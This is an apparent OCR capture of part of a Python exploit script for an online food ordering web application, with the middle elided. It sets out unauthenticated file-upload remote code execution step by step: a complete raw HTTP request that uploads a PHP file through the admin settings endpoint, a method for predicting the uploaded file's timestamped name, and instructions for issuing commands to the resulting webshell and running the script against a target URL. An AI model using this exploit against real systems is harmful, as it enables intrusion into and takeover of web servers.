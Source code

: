 ```python
#     - `ajax.php?action=save_settings`
# 3. Capture request in burp and replace with with following request.

'''
POST /fos/admin/ajax.php?action=save_settings HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:93.0) Gecko/20100101 Firefox/93.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------120025571041714278883588636251
Content-Length: 754
Origin: http://localhost
Connection: close
Referer: http://localhost/fos/admin/index.php?page=site_settings
Cookie: PHPSESSID=nbt4d6o8udue0v82bvasfjkm90
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------120025571041714278883588636251
Content-Disposition: form-data; name="name"

adsa
-----------------------------120025571041714278883588636251
Content-Disposition: form-data; name="email"

asdsad@asda.com
-----------------------------120025571041714278883588636251
Content-Disposition: form-data; name="contact"

asdsad
-----------------------------120025571041714278883588636251
Content-Disposition: form-data; name="about"

asdsad
-----------------------------120025571041714278883588636251
Content-Disposition: form-data; name="img"; filename="phpinfo.php"
Content-Type: application/octet-stream

<?php echo phpinfo();?>
-----------------------------120025571041714278883588636251--
'''
#   ` Image uploader is renaming your payload using the following function.
         # strtotime(date('y-m-d H:i')).'_'.$_FILES['img']['name'];
         # you can simply go to any online php compile website like https://www.w3schools.com/php/phptryit.asp?filename=tryphp_compiler
         # and print this function to get the value. e.g: <?php echo strtotime(date('y-m-d H:i')); ?> Output: 1632085200
         # concate output with your playload name like this 1632085200_phpinfo.php
# 4. Communicate with the webshell at '/assets/img/1632085200_phpinfo.php?cmd=dir' using GET Requests.

# RCE via executing exploit: ←
    # Step 1: run the exploit in python with this command: python3 OFOS_v2.0.py ←
    # Step 2: Input the URL of the vulnerable application: Example: http://localhost/fos/ ←


[...]

#Set Cookie
```